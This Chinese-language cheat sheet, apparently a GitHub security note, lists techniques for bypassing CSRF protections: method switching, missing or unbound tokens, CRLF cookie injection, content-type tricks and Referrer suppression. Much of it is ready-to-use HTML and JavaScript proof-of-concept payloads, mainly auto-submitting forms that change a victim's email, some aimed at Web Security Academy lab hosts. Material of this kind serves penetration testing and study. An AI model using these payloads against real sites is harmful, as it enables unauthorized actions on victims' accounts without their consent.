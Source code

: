 # CSRF绕过

### POST-GET

如果请求表单为POST请求，但也应该检测GET请求是否也有效，以及当发送GET请求时CSRF令牌是否仍在验证.

### HEAD方法绕过

如果GET请求受到限制,可以只发送一个HEAD请求,该请求将作为GET请求进行处理.

### CSRF令牌缺少

WEB应用程序可能会实现一种机制来验证令牌。如果令牌不存在时则完全跳过验证.

攻击者可以通过删除携带令牌的参数来利用此漏洞.

### CSRF令牌不与用户会话绑定

没有将CSRF令牌绑定到用户会话的WEB应用程序的情况下,系统根据全局池验证令牌,而不是确保每个令牌都绑定到发起的会话.

攻击者可以通过使用自己的账户进行身份验证,然后从全局池中获取有效的CSRF令牌,最后针对受害者发起CSRF攻击使用此令牌.

### 方法绕过

奇怪的请求方法可能导致目标WEB应用程序无法识别.

比如PUT请求
```javascript
<script>
function put() {
    var x = new XMLHttpRequest();
    x.open("PUT","http://目标WEB应用程序/",true);
    x.setRequestHeader("Content-Type", "application/json");
    x.send(JSON.stringify({"acct":"BOB", "amount":100}));
}
</script>

<body onload="put()">
```

### 自定义标头令牌绕过

如果请求将带有令牌的自定义标头添加到请求中作为CSRF防御机制,那么可以尝试

+ 在没有自定义令牌和标头的情况下测试请求
+ 使用完全相同的长度但不同的token测试请求

### CSRF令牌通过cookie进行验证

应用程序可以通过在 cookie 和请求参数中复制令牌或设置 CSRF cookie 并验证后端发送的令牌是否与 cookie 相对应来实现 CSRF 保护. 应用程序通过检查请求参数中的令牌是否与 cookie 中的值一致来验证请求.

但是，如果网站存在允许攻击者在受害者浏览器中设置 CSRF cookie 的缺陷（例如 CRLF 漏洞），则此方法很容易受到 CSRF 攻击. 攻击者可以通过加载设置 cookie 的欺骗性图像来利用此漏洞，然后发起 CSRF 攻击.

```javascript
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://example.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
      <input type="hidden" name="csrf" value="tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://example.com/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

### 内容类型更改

为了避免POST请求被进行预检测,可以设置允许的Content-Type值

+ application/x-www-form-urlencoded
+ multipart/form-data
+ text/plain
+ application/json
+ text/xml
+ application/xml

以纯文本方式发送Json数据
```html
<html>
  <body>
    <form id="form" method="post" action="https://phpme.be.ax/" enctype="text/plain">
      <input name='{"garbageeeee":"' value='", "yep": "yep yep yep", "url": "https://webhook/"}'>
    </form>
    <script>
        form.submit();
    </script>
  </body>
</html>
```

### 绕过JSON数据的预检请求

当尝试通过 POST 请求发送 JSON 数据时，无法直接在 HTML 表单中使用 Content-Type: application/json. 同样，利用 XMLHttpRequest 发送此内容类型会启动预检请求。 尽管如此，还是有一些策略可以绕过此限制并检查服务器是否处理 JSON 数据，而不管内容类型如何：

+ 使用替代内容类型：通过在表单中设置 enctype="text/plain" 来使用 Content-Type: text/plain 或 Content-Type: application/x-www-form-urlencoded.此方法测试后端是否使用数据，无论内容类型如何

+ 修改内容类型：为了避免预检请求，同时确保服务器将内容识别为 JSON，您可以使用 Content-Type: text/plain 发送数据； 应用程序/json. 这不会触发预检请求，但如果服务器配置为接受 application/json，则可能会被服务器正确处理

+ SWF Flash 文件利用：一种不太常见但可行的方法是使用 SWF Flash 文件来绕过此类限制

### Referrer/Origin 绕过

仅当Referrer标头存在时,WEB应用程序才会验证.为了防止浏览器发送此标头,可以使用HTML标签:
```javascript
<meta name="referrer" content="never">
```

若要在Referrer参数内发送的URL设置服务器域名,可以编辑代码如下:
```html
<html>
  <head><meta name="referrer" content="unsafe-url"></head>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac651f671e92bddac04a2b2e008f0069.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState("", "", "?ac651f671e92bddac04a2b2e008f0069.web-security-academy.net")
      document.forms[0].submit();
    </script>
  </body>
</html>
```
